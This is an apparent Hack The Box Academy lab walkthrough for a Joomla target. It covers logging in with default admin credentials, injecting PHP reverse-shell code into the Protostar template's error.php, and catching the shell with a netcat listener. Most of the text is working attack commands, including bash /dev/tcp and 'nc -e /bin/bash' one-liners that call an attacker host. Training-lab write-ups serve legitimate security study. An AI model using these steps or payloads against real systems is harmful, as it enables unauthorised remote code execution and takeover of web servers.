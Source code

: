 
## HTB Academy Lab Solutions

### Lab: Template Injection Flag Discovery
**Question:** "Leverage the directory traversal vulnerability to find a flag in the root of the http://dev.inlanefreight.local/ Joomla application"

**Solution Methodology (Template Injection + Reverse Shell):**

#### Step 1: Setup Environment
```bash
# Add VHost entry to /etc/hosts
echo "STMIP dev.inlanefreight.local" >> /etc/hosts

# Verify connectivity
curl -I http://dev.inlanefreight.local/
```

#### Step 2: Admin Panel Access
```bash
# Navigate to admin panel
# URL: http://dev.inlanefreight.local/administrator/index.php
# Credentials: admin:admin (NOT admin:turnkey)

# Verify login via browser or curl
curl -X POST "http://dev.inlanefreight.local/administrator/index.php" \
  -d "username=admin&passwd=admin&task=login" \
  -c cookies.txt -v
```

#### Step 3: Template Modification for Reverse Shell
**Navigation Path:**
1. **Extensions** → **Templates** → **Templates**
2. Click **"Protostar Details and Files"**
3. Click **error.php** to edit

**Reverse Shell Injection:**
```php
# Inject into error.php (replace existing content or add at top)
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'");
?>

# Alternative one-liners:
exec("/bin/bash -c 'bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1'");
system("nc ATTACKER_IP 4444 -e /bin/bash");
shell_exec("bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1");
```

#### Step 4: Setup Listener and Trigger Shell
```bash
# Setup netcat listener on attacking machine
nc -nvlp 4444

# Alternative with specific port
nc -nvlp 9001

# Trigger reverse shell by visiting error.php
curl http://dev.inlanefreight.local/templates/protostar/error.php

# Or via browser navigation to:
# http://dev.inlanefreight.local/templates/protostar/error.php
```
